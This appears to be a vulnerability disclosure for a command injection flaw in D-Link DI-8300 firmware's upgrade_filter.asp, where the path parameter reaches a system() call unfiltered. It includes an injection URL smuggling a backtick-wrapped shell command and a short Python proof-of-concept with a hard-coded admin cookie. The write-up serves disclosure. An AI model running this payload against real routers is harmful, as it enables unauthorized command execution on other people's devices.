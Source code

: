 # Firmware:
version:DI_8300-16.07.26A1
download link:http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8300
# Description:
In the system dangerous function of the upgrade_filter_asp function, parameters are passed through the GET request mode for the path variable, resulting in command injection vulnerabilities due to careless concerns.
# Analyse:
Obtain the path parameter and check whether the first seven characters are "http://". If yes, concatenate the command and run the system function without filtering the following characters.
![Pasted image 20240806095532](https://github.com/user-attachments/assets/e5adcbee-a13d-41e5-85a6-649ebff9bc1b)
```
http://192.168.0.1:80/upgrade_filter.asp?path=http://`ps%20%3E%20/002.txt`
```
![Pasted image 20240806100619](https://github.com/user-attachments/assets/2a9c71a6-5592-4e77-9817-cf2345cb6eda)
Check the firmware shell. The command is successfully executed
![Pasted image 20240806100840](https://github.com/user-attachments/assets/3dab3ce9-12e2-46ba-a5d5-b8f64dca1901)
# POC:
```
import requests

ip = "192.168.0.1:80"
payload = "`ps%20%3E%20/jiawen.txt`"

url = "http://"+ip+"/upgrade_filter.asp?path=http://"+payload+""
Cookies = {"wys_userid": "admin,wys_passwd=6B4BED98A39AD592599AF9F3092B1782"}
requests.get(url, cookies=Cookies)
```
